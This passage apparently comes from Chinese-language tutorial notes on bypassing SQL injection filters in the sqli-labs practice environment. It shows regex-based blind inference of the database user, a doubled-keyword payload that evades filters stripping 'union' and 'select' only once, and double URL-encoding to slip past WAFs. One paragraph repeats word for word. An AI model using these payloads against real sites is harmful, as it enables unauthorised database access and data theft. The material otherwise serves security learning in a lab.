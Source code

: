 ```sql
1 row in set (0.00 sec)
```

## regex绕过 

```sql
mysql> select * from users where id=1 and 1=(select user() regexp '^r');
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id=1 and 1=(select user() regexp '^a');
Empty set (0.00 sec)
```

# 双关键词绕过 

有些程序会对单词 union、 select 进行转空，但是只会转一次这样会留下安全隐患。双关键字绕过（若删除掉第一个匹配的 union 就能绕过）如：

id=-1'UNIunionONSeLselectECT1,2,3--+到数据库里执行会变成 id=-1'UNION SeLECT1,2,3--+ ，从而绕过拦截。

有些程序会对单词 union、 select 进行转空，但是只会转一次这样会留下安全隐患。双关键字绕过（若删除掉第一个匹配的 union 就能绕过）如：

id=-1'UNIunionONSeLselectECT1,2,3--+到数据库里执行会变成 id=-1'UNION SeLECT1,2,3--+ ，从而绕过拦截。

# 二次编码绕过 

有些程序会解析二次编码，造成 SQL 注入，因为 url 两次编码过后，有些 waf 是不会拦截的。

php代码用了urldecode()等编码函数，与php自身编码配合失误。

由于sqli-labs没有二次编码注入的环境，所以我们在less1中加入一些代码

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1676007155485-a95d4a45-7c8f-4d72-a688-7571c451d590.png)
